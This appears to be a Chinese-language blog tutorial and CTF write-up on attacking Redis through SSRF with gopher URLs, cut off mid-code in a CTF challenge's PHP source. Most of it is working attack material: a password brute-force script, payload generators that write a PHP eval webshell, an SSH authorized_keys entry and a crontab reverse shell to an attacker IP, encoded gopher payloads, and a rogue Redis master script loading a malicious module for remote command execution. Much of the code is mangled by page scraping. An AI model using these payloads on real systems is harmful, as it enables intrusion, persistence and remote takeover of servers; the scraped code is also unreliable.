0x01 SSRF介绍
SSRF，服务器端请求伪造，是由攻击者构造的漏洞，用于形成服务器发起的请求。通常，SSRF攻击的目标是外部网络无法访问的内部系统。今天学习一手redis中如何利用SSRF，感觉这个在实战中不怎么常见，但其中的知识值得学习
0x02 环境搭建
这里在又是废了一天搭建成功，建议大家还是直接下载redis-server服务搭建比较好，网上的教程属实是有点垃圾且害人
这里我的版本的ubuntu22.04 LTS
1 2 3 4 5 6 7 8 9 10 11 12 13 14 安装Redis：bind 127.0.0.1 ::1
第二天了，你没猜错，这玩意儿tm又废了我一天时间搭建，最终还是选择centos7搭建成功
具体可以参考：Redis环境搭建 、CentOS7 搭建php环境 –只需要将其中的php、apache服务安装好即可，最后记得在防火墙开启所需要的端口。其中ssrf.php代码如下：
1 2 3 4 5 6 7 8 9 10 <?php highlight_file (__FILE__ );$ch = curl_init (); curl_setopt ($ch , CURLOPT_URL, $_GET ['url' ]); curl_setopt ($ch , CURLOPT_HEADER, 0 );curl_exec ($ch ); curl_close ($ch ); ?>
测试没毛病。
0x03 前置知识
这里看到师傅们在探讨这一问题的时候需要学习一手RESP协议，那我们跟着师傅学一手
RESP协议
Redis服务器与客户端通过RESP（REdis Serialization Protocol）协议通信。
RESP协议是在Redis 1.2中引入的，但它成为了与Redis 2.0中的Redis服务器通信的标准方式。这是您应该在Redis客户端中实现的协议。
RESP实际上是一个支持以下数据类型的序列化协议：简单字符串，错误，整数，批量字符串和数组。
RESP在Redis中用作请求 - 响应协议的方式如下：
客户端将命令作为Bulk Strings的RESP数组发送到Redis服务器。
服务器根据命令实现回复一种RESP类型。
在RESP中，某些数据的类型取决于第一个字节：
1 2 3 4 5 6 对于`Simple Strings`，回复的第一个字节是`+`
在RESP中，协议的不同部分始终以"\r\n"(CRLF)结束。
我们用tcpdump来抓个客户端与redis服务器通信的包来分析一下
1 2 3 4 5 6 命令：tcpdump -i lo -s 0 port 6379 -w redis.pcap

这里本地先开启监听，之后进入redis服务器redis-cli -h 127.0.0.1 -p 6379 之后在redis服务器执行如下命令
1 2 3 127.0.0.1:6379> set key1 value1

最后将产生的pcap数据包传入wireshark追踪tcp数据流

这里对于该工具的使用方法几乎不懂，但好在找到了目标数据，如上图所示
抓到的数据包如下，结合我们上面对RESP协议的解释，我们来逐行分析:
1 2 3 4 5 *3：代表数组，也就是这个数组长度为3，set 、key1、value1可以将之间的空格认为是分隔符$3 ：代表批量字符串，长度为3：set ；之后的$4 、$6 同理set 代表设置key，key为key1，对应的value为value1
hex转储看一下

正如前面所说的，客户端向将命令作为Bulk Strings的RESP数组发送到Redis服务器，然后服务器根据命令实现回复给客户端一种RESP类型。
这里的0d0a代表CRLF也就是回车换行符，在这里代表结束符。那有趣的来了，如果我们将上述的数据进行url编码随后在本机127.0.0.1中通过curl和gopher发送给redis服务器会如何呢？
1 2 3 4 5 6 7 8 9 10 11 12 *3$3 set $4 $6
如上图可以看到左侧的OK代表我们执行成功，右图是我们登录redis服务器之后验证key1的值是否被设置了
这里看到师傅还尝试直接使用命令发送，而不采取tcp数据流了。我们也尝试一下
1 2 3 4 5 6 命令：set key2 value2

如上图，看到成功返回了我们刚刚设置的key的值，说明直接发送命令的方法也是可行的。知道了如何让Redis服务器执行我们的命令，那么接下来我们就来看如何攻击来达到 getshell 的目的。
0x04 Redis配合gopher协议进行SSRF
概述
gopher协议是http协议出现之前，在internet中常见的一个协议，但现在这个协议用的越来越少了，但该协议在ssrf中却大有用途，可以用来攻击redis、ftp等，还可以发送get、post请求，这在ssrf攻击中大有作为。
利用条件
redis所在的服务端存在未授权访问或者通过弱口令可以访问到
利用
redis常见的SSRF攻击方式大概有这几种：
redis认证攻击
绝对路径写webshell
写ssh公钥
写contrab计划任务反弹shell
下面我们逐个实现
redis认证攻击
这里呢也是可以分为两种情况的，一种是遇到默认无密码的redis服务器，另一种就是有密码的。
无密码Redis攻击
先考虑无密码的，这里呢其实也就是我们上述0x03中介绍过的可以直接构造恶意的明文命令，或者tcp数据流，发送给redis服务器
但这里呢如果对方的redis服务暴露在公网，这就好办了，直接curl发送gopher协议即可。
但如果对方redis限制只监听本地请求，那我们就只能祈祷对方服务器存在ssrf，接下来对于无密码的我就直接cv上面的了。
如果我们将上述的数据进行url编码随后在本机127.0.0.1中通过curl和gopher发送给redis服务器会如何呢？
1 2 3 4 5 6 7 8 9 10 11 12 *3$3 set $4 $6
如上图可以看到左侧的OK代表我们执行成功，右图是我们登录redis服务器之后验证key1的值是否被设置了
这里看到师傅还尝试直接使用命令发送，而不采取tcp数据流了。我们也尝试一下
1 2 3 4 5 6 命令：set key2 value2
如上图，看到成功返回了我们刚刚设置的key的值，说明直接发送命令的方法也是可行的。知道了如何让Redis服务器执行我们的命令，那么接下来我们就来看如何攻击来达到 getshell 的目的。
有密码Redis攻击
这里我们先确定一个登录认证密码，修改redis下的配置文件 redis.conf ，搜索 requirepass 关键字。
vim /etc/redis/redis.conf，如下图将#去掉，并在requirepass后面添加密码
退出后重新启动redis服务，接着我们开始爆破。
对于这种需要密码登录认证的，我们可以尝试弱密码，但手动太麻烦，这里我就跟师傅学着写个脚本
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 import requests"http://192.168.246.138/ssrf.php?url=" "127.0.0.1" "6379" with open ("password.txt" ,"r+" ) as file:for passwd in passwds:"\n" )len (passwd)r"gopher://" + rhost + ":" + rport + "/_%252A2%250d%250a%25244%250d%250aAUTH%250d%250a%2524" +str (len_pass)+r"%250d%250a" +passwd+r"%250D%250A%252A1%250D%250A" str (payload)if "OK" in text:print ("[+] 爆破成功 密码为: " + passwd)print (text + payload)break

上图为简单的字典，如下图可以看到最后停在了hybcx这里，说明密码为hybcx

如下图检验成功

绝对路径写webshell
据说这个方法是最常用的
构造payload
先构造redis命令
1 2 3 4 5 6 flushall set 1 '<?php eval($_GET["cmd"]);?>' set dir /var/www/html set dbfilename shell.php
这里的目的就是向对方服务器的web目录写入一句话木马。这里师傅自己写了个转化为redis RESP协议格式的脚本，这里我直接cv了（我是大彩笔~~）
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 import urllib"gopher://" "127.0.0.1" "6379" "\n\n<?php eval($_GET[\"cmd\"]);?>\n\n" "shell.php" "/var/www/html" "" "flushall" ,"set 1 {}" .format (shell.replace(" " ,"${IFS}" )),"config set dir {}" .format (path),"config set dbfilename {}" .format (filename),"save" if passwd:0 ,"AUTH {}" .format (passwd))":" +port+"/_" def redis_format (arr ):"\r\n" " " )"" "*" +str (len (redis_arr))for x in redis_arr:"$" +str (len ((x.replace("${IFS}" ," " ))))+CRLF+x.replace("${IFS}" ," " )return cmdif __name__=="__main__" :for x in cmd:print (payload)
得到的payload如下，不过下面只进行了一次url编码，而如果我们利用的是ssrf的话，一般就要编码两次
1 2 3 4 5 6 gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2431%0D%0A%0A%0A%3C%3Fphp%20eval%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E%0A%0A%0D%
最后在ssrf.php发送上述payload即可
服务端看到木马成功写入，下图验证成功
在这里推荐一个工具，虽然之前的文章gopherus工具就可以打redis，不过感觉这个更专业
gopher-redis-auth
py2环境下运行，得到的内容记得二次编码发送

依旧成功写入
写ssh公钥
如果.ssh目录存在，则直接写入~/.ssh/authorized_keys；如果不存在，则可以利用crontab创建该目录
不过需要注意，这种方法需要确保靶机允许使用密钥登录。
开启方法：需要修改 ssh 配置文件 /etc/ssh/sshd_config
1 2 3 4 5
我们先直接尝试ssh登录靶机试试：
可以看到是需要登录密码的，那我们开始攻击
生成攻击机公钥
这里呢我对公钥私钥的原理什么的忘记了，具体原理我认为可以参考：SSH 的原理与应用
其中对咱们这次的攻击思路有帮助的是
1 2 3 4 5 6 7 8 使用密码登录，每次都必须输入密码，非常麻烦。好在SSH还提供了公钥登录，可以省去输入密码的步骤。
这也就是说我们可以想办法将自己攻击机的公钥发送到对方服务器上，这样我们以后对其请求远程连接的时候就没必要输入密码了。
这里一路回车即可，最后进入/root/.ssh目录下即可看到公钥和私钥，如下图，前者为私钥，后者为公钥

1 ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDAqM1m48h1BQnii8QA16Ebv4M2jXT5rMBO6RDYkZZzMNypV8xhD8+FZ3tPB8iivCWMCVFAAby4gH7GvL+DYQnOMQXsIbC3xrqQ+C6O/4T4VZey1e2JQ00O7+8Kl2gWuIkPyXKKTXm88LOfYcARETlr20+INfJuzcb6ui1ZF+QnBtxDoea5OMNSD86a1Wq5ECOZRKodP2f5BA/vJ0r57cly8qtVkykNcQxzzB1d9nMVx900gP5aA3N6Oxsd7ROKOPDqhvHvHij0s6KzgRPc9OyT5S7Itdz9hQyFhNYczzl4deY+PV3dzqRRCEBH8XLbaihKVSk8OA3KYoaMv3oAD1QbI98FuEzoFy6gaYJd0XAP0TBGFExgmMSUCw5t2k79C7LH2sLFbn6hGQqjErLHky7qDoVpEX0Ohv1yh4EcoAAcLeagUQwg+jmcuusQejrd8SsRmQtDWhw2qFCuoYkEaKyJBixb5KxZAFoSJJ4TeGdbRaAcTuTkVLzBgJXDCA5n2hM= root@kali
最后我们修改一下上述脚本
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 import urllib"gopher://" "127.0.0.1" "6379" "\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDAqM1m48h1BQnii8QA16Ebv4M2jXT5rMBO6RDYkZZzMNypV8xhD8+FZ3tPB8iivCWMCVFAAby4gH7GvL+DYQnOMQXsIbC3xrqQ+C6O/4T4VZey1e2JQ00O7+8Kl2gWuIkPyXKKTXm88LOfYcARETlr20+INfJuzcb6ui1ZF+QnBtxDoea5OMNSD86a1Wq5ECOZRKodP2f5BA/vJ0r57cly8qtVkykNcQxzzB1d9nMVx900gP5aA3N6Oxsd7ROKOPDqhvHvHij0s6KzgRPc9OyT5S7Itdz9hQyFhNYczzl4deY+PV3dzqRRCEBH8XLbaihKVSk8OA3KYoaMv3oAD1QbI98FuEzoFy6gaYJd0XAP0TBGFExgmMSUCw5t2k79C7LH2sLFbn6hGQqjErLHky7qDoVpEX0Ohv1yh4EcoAAcLeagUQwg+jmcuusQejrd8SsRmQtDWhw2qFCuoYkEaKyJBixb5KxZAFoSJJ4TeGdbRaAcTuTkVLzBgJXDCA5n2hM= root@kali\n\n" "authorized_keys" "/root/.ssh/" "" "flushall" ,"set 1 {}" .format (shell.replace(" " ,"${IFS}" )),"config set dir {}" .format (path),"config set dbfilename {}" .format (filename),"save" if passwd:0 ,"AUTH {}" .format (passwd))":" +port+"/_" def redis_format (arr ):"\r\n" " " )"" "*" +str (len (redis_arr))for x in redis_arr:"$" +str (len ((x.replace("${IFS}" ," " ))))+CRLF+x.replace("${IFS}" ," " )return cmdif __name__=="__main__" :for x in cmd:print urllib.quote(payload)
1 2 3 4 5 6 7 3 A2520 AAAAB3NzaC1yc2EAAAADAQABAAABgQDAqM1m48h1BQnii8QA16Ebv4M2jXT5rMBO6RDYkZZzMNypV8xhD8%252 BFZ3tPB8iivCWMCVFAAby4gH7GvL%252 BDYQnOMQXsIbC3xrqQ%252 BC6O/4 T4VZey1e2JQ00O7%252 B8Kl2gWuIkPyXK252 BINfJuzcb6ui1ZF%252 BQnBtxDoea5OMNSD86a1Wq5ECOZRKodP2f5BA/vJ0r57cly8qtVkykNcQxzzB1d9nMVx900gP5aA3N6Oxsd7ROKOPDqhvHvHij0s6KzgRPc9OyT5S7Itdz9hQyFhNYczzl4deY%252 BPV3d252 BjmcuusQejrd8SsRmQtDWhw2qFCuoYkEaKyJBixb5KxZAFoSJJ4Te253 D%2520 root%2540 kali%250 A%250 A%250 D%250 A%252 A4%250 D%250 A%25246 %250 D%250 Aconfig%250 D%250 A%25243 %250 D%250 Aset%250 D%250 A%25243 %250 D%250 Adir%250 D%250 A%252411 %25 0 D%250 A/root/.ssh/%250 D%250 A%252 A4%250 D%250 A%25246 %250 D%250 Aconfig%250 D%250 A%25243 %250 D%250 Aset%250 D%250 A%252410 %250 D%250 Adbfilename%250 D%250 A%252415 %250 D%250 Aauthorized_keys%250 D%250 A%252 A1%250 D%250 A%25244 %250 D%250 Asave%250 D%250 A

成功写入，接下来我们远程连接看看
成功实现免密登录
利用contrab计划任务反弹shell
这个方法只能Centos上使用，Ubuntu上行不通，原因如下：
因为默认redis写文件后是644的权限，但ubuntu要求执行定时任务文件/var/spool/cron/crontabs/<username>权限必须是600也就是-rw-------才会执行，否则会报错(root) INSECURE MODE (mode 0600 expected)，而Centos的定时任务文件/var/spool/cron/<username>权限644也能执行
因为redis保存RDB会存在乱码，在Ubuntu上会报错，而在Centos上不会报错
由于系统的不同，crontrab定时文件位置也会不同
1 2 Centos的定时任务文件在`/var/spool/cron/<username>`
Centos和Ubuntu均存在的（需要root权限）/etc/crontab PS：高版本的redis默认启动是redis权限，故写这个文件是行不通的
构造payload
这里我再复习一波bash反弹命令的原理吧：
1 /bin/bash -i >& /dev/tcp/[ip]/[端口] 0>&1
/bin/bash -i 表示的是调用bash命令的交互模式，并将交互模式重定向到 /dev/tcp/[ip]/[端口] 中。这里我们将ip和端口改为我们攻击机的地址和监听端口。
重定向时加入一个描述符 &，表示直接作为数据流输入。不加 & 时，重定向默认是输出到文件里的。
/dev/tcp/ip地址/端口号 是linux下的特殊文件，表示对这个地址端口进行tcp连接
这里我们设置成攻击机监听的地址
最后面的 0>&1 。此时攻击机和靶机已经建立好了连接，当攻击机进行输入时，就是这里的 0（标准输入）
通过重定向符，重定向到 1（标准输出）中，由于是作为 /bin/bash 的标准输入，所以就执行了系统命令了。
接下来开始写入定时任务，构造redis的命令如下：
1 2 3 4 5 flushall1 '\n\n*/1 * * * * bash -i >& /dev/tcp/192.168.246.130/5555 0>&1\n\n' var /spool/cron/
转化为redis RESP协议的格式，修改上述脚本即可
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 import urllib"gopher://" "127.0.0.1" "6379" "\n\n*/1 * * * * bash -i >& /dev/tcp/192.168.246.130/5555 0>&1\n\n" "root" "/var/spool/cron" "" "flushall" ,"set 1 {}" .format (shell.replace(" " ,"${IFS}" )),"config set dir {}" .format (path),"config set dbfilename {}" .format (filename),"save" if passwd:0 ,"AUTH {}" .format (passwd))":" +port+"/_" def redis_format (arr ):"\r\n" " " )"" "*" +str (len (redis_arr))for x in redis_arr:"$" +str (len ((x.replace("${IFS}" ," " ))))+CRLF+x.replace("${IFS}" ," " )return cmdif __name__=="__main__" :for x in cmd:print urllib.quote(payload)
二次编码后的结果如下
1 2 3 gopher%3A//127.0.0.1%3A6379/_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252461%250D%250A%250A%250A%252A/1
发送后，看一下靶机是否被成功写入
接着攻击机开启监听，等一会儿即可。如下图成功拿到shell

不过这里也可以用我推荐过的工具
他这里默认监听端口为1234，需要注意一下，同样二次编码后看靶机，如下图成功写入
成功那shell，不过这里这个工具是sh反弹，暂时也不知道这两种方式有何区别

0x05 Redis主从复制RCE
这里搞着搞着就到了主从复制了，回想起之前搞这玩意儿弄得心烦，环境一直搞不好，看来是时候解决了~~
介绍
redis 4.x/5.x RCE是由LC/BC战队队员Pavel Toporkov在zeronights 2018上提出的基于主从复制的redis rce，演讲的PPT地址为：PPT
利用条件
□ 能未授权或者能通过弱口令认证访问到Redis服务器
□ 可动态修改备份文件路径
□ 主从未校验可信服务端
主从复制概念
1 2 3 主从复制，是指将一台Redis服务器的数据，复制到其他的Redis服务器。前者称为主节点(master)，后者称为从节点(slave)；数据的复制是单向的，只能由主节点到从节点。

这里就跟着师傅搭建主从复制了，属实是不懂唉
建立主从复制，有3种方式：
配置文件写入slaveof <master_ip> <master_port>
redis-server启动命令后加入 --slaveof <master_ip> <master_port>
连接到客户端之后执行：slaveof <master_ip> <master_port>
PS：建立主从关系只需要在从节点操作就行了，主节点不用任何操作
我们先在同一个机器开两个redis实例，一个端口为6379，一个端口为6380
这里我们在上面搭建的基础上，同一目录下新建redis6380文件，接着将之前已经有的redis目录下的redis.conf配置文件赋值到redis6380文件中，接着修改其中端口为6380即可
可参考：Centos7搭建多个Redis实例
1 2 redis-server /etc/redis/redis.conf

可以看到均启动成功
我们把master_ip设置为127.0.0.1，master_port为6380 --这里这个师傅是将6380所在redis服务器当做主服务器了
可以看到在成功设置主从关系之后，我们在6380主服务器上设置某些数据，之后在6379上可以看到数据的同步
如果我们想解除主从关系可以执行SLAVEOF NO ONE
redis module
自从Redis4.x之后redis新增了一个模块功能，Redis模块可以使用外部模块扩展Redis功能，以一定的速度实现新的Redis命令，并具有类似于核心内部可以完成的功能。MODULE LOAD命令加载到Redis中。
恶意so文件编写：https://github.com/n0b0dyCN/redis-rogue-server/tree/master/RedisModulesSDK
攻击原理
利用步骤，贴一下PPT上的步骤
slave和master的握手协议过程

图中一些常量说明
1 2 3 4 5 6 7 8 9 10 11 12 13 #define REPL_STATE_CONNECTING 2 #define REPL_STATE_RECEIVE_PONG 3 #define REPL_STATE_SEND_AUTH 4 #define REPL_STATE_RECEIVE_AUTH 5 #define REPL_STATE_SEND_PORT 6 #define REPL_STATE_RECEIVE_PORT 7 #define REPL_STATE_SEND_CAPA 8 #define REPL_STATE_RECEIVE_CAPA 9 #define REPL_STATE_SEND_PSYNC 10 #define REPL_STATE_RECEIVE_PSYNC 11 #define REPL_STATE_TRANSFER 12
这里的重点就是利用全量复制将master上的RDB文件同步到slave上，也就是将我们的恶意so文件传输到slave上，从而达到加载恶意so文件达到rce。
那为什么一定是全量复制呢，理由如下，当slave向master发送PSYNC命令之后，一般会得到三种回复：
+FULLRESYNC：进行全量复制。
+CONTINUE：进行增量同步。
-ERR：当前master还不支持PSYNC。
全量复制的过程
slave向master发送PSYNC请求，并携带master的runid和offest，如果是第一次连接的话slave不知道master的runid，所以会返回runid为?，offest为-1，我们来测试以下看看是不是真的如此
这里我们先对6379的redis输入slave no one，解除他与6380redis之间的主从关系，接着kali开启监听，在6379上设置kali为redis的主服务器
这里我操作失误了，连接第二次我才搞懂得干嘛。。。似乎就是redis连接你之后，你需要回复指定命令与其进行通信，最后返回master的runid和offest，即：
1 2 3 4 5 6 7 8 9 10 11 12 13 主服务器需要执行的响应内容如下:
正确的应该是这样
过程是这样的：
master验证slave发来的runid是否和自身runid一致，如不一致，则进行全量复制。
master把自己的runid和offset发给slave，slave对master发来的runid和offest进行保存
master进行bgsave，生成RDB文件
master将写好的RDB文件传输给slave，并将缓冲区内的数据传输给slave
slave加载RDB文件和缓冲区数据
增量复制（部分复制）

增量复制的过程这里简单带过一下：就是当slave向master要求数据同步时，会发送master的runid和offest，如果runid和slave上的不对应则会进行全量复制，如果相同则进行数据同步，但是不会传输RDB文件
通过了解全量复制和增量复制的过程，我们应该大致知道为什么一定要用全量复制而不用增量复制了。
但是这样我感觉还是欠点什么，因为我认为我没有完全搞懂，又找了几篇文章发现这个解释的很好：
Redis提供了2种不同的持久化方式，RDB方式（在指定的时间间隔内生成数据集的时间点快照）和AOF方式（记录服务器执行的所有写操作命令）.AOF方式备份数据库的文件名默认为appendonly.aof，可以在配置文件中通过修改appendfilename参数进行修改，无法在客户端交互中动态设置appendfilename，而RDB方式备份数据库的文件名默认为dump.rdb，此文件名可以通过客户端交互动态设置dbfilename来更改。
这也说明了我们为何要选择RDB方式了。
上图可以看到我们可以任意设置RDB文件名，但对于AOF却不行，而重点如下：
主从复制模式下数据单向从主节点流向从节点，在从节点首次注册时 ，会对主节点数据进行全量复制，复制过程中用offset记录读取的数据大小，以便中断后断点续传。如果从节点初始没有数据，通过主从复制，可以将主节点设置的dbfilename文件全量复制到从节点的dbfilename中，从而实现任意文件上传。
这也就说明了，攻击的时候似乎只能一次成功吗？毕竟如果第二次连接就不是首次注册了。。。
不过原理算是彻底明白了
攻击流程
第一个就是先配置一个攻击服务器，这个服务器是用于被受害者redis服务器连接的，也就是我们的靶机为从服务器，攻击机为主服务器（而恶意so文件就在我们的攻击机上）
而攻击机在于redis交互的过程中，需要发送如下信息：
1 2 3 4 5 6 7 PING 测试连接是否可用
这里样的话才算成功的冒充为了一名合格的redis主服务器
如下图所示：这里我就借用了~~

而此时的redis从服务器需要主动的发送如下信息（实际就是我们操控它发送）
1 2 3 4 5 6 7 8 9 10 11 Config set dir ./ 设置redis的备份路径为当前目录
这里呢由于一些原因，我想着学点多的方法：
任意文件写入
这里呢，我是先配置的redis服务对外开放6379端口，ssrf后续再说，这里开启之后呢，我并没有对redis设置登录密码，但同时要设置取消保护模式，同时对于监听本地127.0.0.1的那一行需要注释掉
接下来我们kali连接测试一下，如下图可以看到能成功连接

这里的话先连接上redis-server，之后设置备份文件目录，以及备份文件名，然后执行slaveof使其成为我们恶意服务的从redis，恶意 master 在接收到 redis-server 的 PSYNC 命令后，返回 FULLRESYNC 命令，并将 payload 紧跟着发送。最终 payload 被写到 redis-server 的 /var/www/html/exp.txt 当中
恶意master如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 import osimport sysimport argparseimport socketserverimport loggingimport socketimport timeformat ='>> %(message)s' )b"\r\n" class RoguoHandler (socketserver.BaseRequestHandler):def decode (self, data ):if data.startswith(b'*' ):return data.strip().split(DELIMITER)[2 ::2 ]if data.startswith(b'$' ):return data.split(DELIMITER, 2 )[1 ]return data.strip().split()def handle (self ):while True :1024 )print (data)"receive data: %r" , data)if arr[0 ].startswith(b'PING' ):b'+PONG' + DELIMITER)elif arr[0 ].startswith(b'REPLCONF' ):b'+OK' + DELIMITER)elif arr[0 ].startswith(b'PSYNC' ) or arr[0 ].startswith(b'SYNC' ):b'+FULLRESYNC ' + b'Z' * 40 + b' 1' + DELIMITER)b'$' + str (len (self.server.payload)).encode() + DELIMITER)break def finish (self ):class RoguoServer (socketserver.TCPServer):True def __init__ (self, server_address, payload ):super (RoguoServer, self).__init__(server_address, RoguoHandler, True )if __name__=='__main__' :'/home/hybcx/flag.txt' 6666 with open (expfile, 'rb' ) as f:'0.0.0.0' , lport), f.read())print ("[+] listening ......" )print ("[+] completed ~~~" )
之后现在kali上执行如下命令：
配置好之后，我们开启恶意master

当其运行结束后，我们在靶机上即可查看到flag.txt被写入。这里肯定想着为何kali上执行个py就写入了呢，因为在此之前我们已经将我们的恶意master设置为了主redis，那我们在其中的任何操作，都可以同步到从redis，也就是我们的靶机，我们这里的py逻辑就是与从服务器命令交互完，直接发送payload，造成文件上传
实际上细细研究发现这里似乎存在一个时间问题，比如我早就在从redis上配置好了我主redis的ip即端口，但此时主redis还没开启，是休眠状态，但一当我开启主redis，从redis就会向主redis发送PING命令，等待具体的回复，究竟是要进行全量复制，还是增量复制等等等等。而我们上述的恶意master会在从redis发送给我们PING命令之后给予相关的回应，最后发送给从redis进行全量复制的命令，最终导致我们的恶意文件上传效果。
这里思路大致与上述一直，这里我们改一下配置即可（注意这里依旧是利用redis未授权）
1 2 3 4 5 6 7 8 9 10 11 192.168 .172.129 1234 'whoami' 127.0 .0.1 9999
如图所示，配置好后我们开启恶意master，但这里不知道为何设置备份目录为当前的时候不成功。。。就先设置tmp了
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 import osimport sysimport argparseimport socketserverimport loggingimport socketimport timeformat ='>> %(message)s' )b"\r\n" class RoguoHandler (socketserver.BaseRequestHandler):def decode (self, data ):if data.startswith(b'*' ):return data.strip().split(DELIMITER)[2 ::2 ]if data.startswith(b'$' ):return data.split(DELIMITER, 2 )[1 ]return data.strip().split()def handle (self ):while True :1024 )print (data)"receive data: %r" , data)if arr[0 ].startswith(b'PING' ):b'+PONG' + DELIMITER)elif arr[0 ].startswith(b'REPLCONF' ):b'+OK' + DELIMITER)elif arr[0 ].startswith(b'PSYNC' ) or arr[0 ].startswith(b'SYNC' ):b'+FULLRESYNC ' + b'Z' * 40 + b' 1' + DELIMITER)b'$' + str (len (self.server.payload)).encode() + DELIMITER)break def finish (self ):class RoguoServer (socketserver.TCPServer):True def __init__ (self, server_address, payload ):super (RoguoServer, self).__init__(server_address, RoguoHandler, True )if __name__=='__main__' :'/home/hybcx/Tools/redis-rogue-getshell/exp.so' 6666 with open (expfile, 'rb' ) as f:'0.0.0.0' , lport), f.read())print ("[+] listening ......" )print ("[+] completed ~~~" )
记得修改恶意文件路径吗，如下图运行之后执行system命令成功
这里虽然进行了上述的实操，但感觉不够真实，毕竟感觉现实中存在ssrf的概率才是大的，虽然可以爆破弱口令，但总感觉少点什么。而且这里的ssrf攻击的过程一直没搞成功，现在再来搞一下。
这里我们先取消redis的主从关系，并且重新配置文件，开启目标redis的保护模式，以及只让其监听本地127.0.0.1。

之后重启redis服务

确定一下对方服务的配置，现在我们进行构造恶意命令
1 2 3 4 5 6 7 192.168 .246.130 6666 "id"
在这里分两次是因为第一次我们在传入命令之后，exp.so还未被加载，之后第二次才输入的加载指令，当然你也可以合并上述两个payload，然后发送两次。
1 gopher://127.0 .0.1 :6379 /_config%2520s et%2520 dir%2520 /tmp%250 D%250 Aconfig%2520s et%2520 dbfilename%2520ex p.so%250 D%250 Aslaveof%2520192.168 .246.130% 25206666% 250 D%250 Amodule%2520 load%2520 /tmp/exp.so%250 D%250 Asystem.exec%2520% 2522 id%2522% 250 D%250 A
这里进行了两次编码，但是在我发送两次之后页面并没有回显，不知道是否是配置问题，但在靶机上测试如下，发现是成功加载的
这让我突然迷惑了，是否我太过钻牛角尖了，本来如果这里存在ssrf的话，我们本就可以进行写入公钥，写webshell等等，这样的话我们完全就可以连接上对方redis服务，这样的话就没必要非得利用ssrf来rce了。这里的疑惑还是通过一会儿的做题来感受吧。。。
痕迹清除
为了减少对服务器的影响，攻击完成后，应该尽量清除痕迹，需要恢复目录和数据库文件，卸载同时删除模块，而数据原本的配置信息，需要在攻击之前进行备份。
1 2 3 4 5 6 7 8 9 10 11 12 13 CONFIG get * 'rm ./exp.so'
漏洞利用的版本是redis 4.x/5.x ，如果是先前版本的Redis，则无法加载模块，自然也就无法利用。在网上开了几个开源的利用脚本，都没有进行版本的判断，如果直接使用exp，除了攻击失败外，可能会修改了 dir 和dbfilename ，这些都可以通过redis未授权修改回原来的配置（前提是有提前备份），而目录下会多生成一个 exp.so文件。
0x06 题目实战
CTFHUB-SSRF-redis协议

看到url，那开始测试
发现存在6379的redis服务，那我们看看是否对方redis设置了密码，脚本跑一下，如下图，发现没有设置

那这里我想的就是先尝试写webshell，话不多说直接上脚本
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 import urllib"gopher://" "127.0.0.1" "6379" "\n\n<?php eval($_GET[\"cmd\"]);?>\n\n" "shell.php" "/var/www/html" "" "flushall" ,"set 1 {}" .format (shell.replace(" " ,"${IFS}" )),"config set dir {}" .format (path),"config set dbfilename {}" .format (filename),"save" if passwd:0 ,"AUTH {}" .format (passwd))":" +port+"/_" def redis_format (arr ):"\r\n" " " )"" "*" +str (len (redis_arr))for x in redis_arr:"$" +str (len ((x.replace("${IFS}" ," " ))))+CRLF+x.replace("${IFS}" ," " )return cmdif __name__=="__main__" :for x in cmd:print urllib.quote(payload)
py2运行，这里需要两次url编码
1 2 gopher%3A//127.0.0.1%3A6379/_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252431%250D%250A%250A%250A%253C%253Fphp%2520eval%2528%2524_GET%255B%2522cmd%2522%25

直接url上传，之后访问shell.php
成功上传并拿到flag
Redis 4.x/5.x主从复制RCE
复现地址：https://vulhub.org/#/environments/redis/4-unacc/
直接vulhub一键启动靶机，之后kali尝试连接目标redis，如下图，存在未授权访问
直接上exp，这里使用了两种，但感觉第一种更好一点
1 python3 redis-rogue-server.py --rhost 192.168 .246 .137 --rport 6379 --lhost 192.168 .246 .130 6666

可以看到直接就拿到shell了
第二个：https://github.com/vulhub/redis-rogue-getshell
1 python3 redis-master.py -r 192.168 .246 .137 -p 6379 -L 192.168 .246 .130 -P 6666 -f RedisModulesSDK/exp.so -c "id"


[网鼎杯 2020 玄武组]SSRFMe
这里推荐去nssctf平台复现，buu似乎有问题
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 <?php function check_inner_ip ($url $match_result =preg_match ('/^(http|https|gopher|dict)?:\/\/.*(\/)?.*$/' ,$url );if (!$match_result )die ('url fomat error' );try $url_parse =parse_url ($url );catch (Exception $e )die ('url fomat error' );return false ;$hostname =$url_parse ['host' ];$ip =gethostbyname ($hostname );$int_ip =ip2long ($ip );return ip2long ('127.0.0.0' )>>24 == $int_ip >>24 || ip2long ('10.0.0.0' )>>24 == $int_ip >>24 || ip2long ('172.16.0.0' )>>20 == $int_ip >>20 || ip2long ('192.168.0.0' )>>16 == $int_ip >>16 ;function safe_request_url ($url if (check_inner_ip ($url ))echo $url .' is inner ip' ;else $ch = curl_init ();curl_setopt 